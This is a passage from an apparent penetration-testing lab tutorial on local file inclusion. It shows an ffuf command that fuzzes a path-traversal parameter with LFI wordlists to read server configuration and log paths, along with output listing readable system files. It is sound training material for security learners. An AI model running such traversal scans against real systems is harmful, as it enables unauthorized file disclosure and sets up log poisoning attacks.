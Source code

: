 As we can see, the scan did indeed identify the correct webroot path at (`/var/www/html/`). We may also use the same [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist we used earlier, as it also contains various payloads that may reveal the webroot. If this does not help us in identifying the webroot, then our best choice would be to read the server configurations, as they tend to contain the webroot and other important information, as we'll see next.

**Server Logs/Configurations**

As we have seen in the previous section, we need to be able to identify the correct logs directory to be able to perform the log poisoning attacks we discussed. Furthermore, as we just discussed, we may also need to read the server configurations to be able to identify the server webroot path and other important information (like the logs path!).

To do so, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability, and see what we get:

Automated Scanning

```shell-session
root@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```
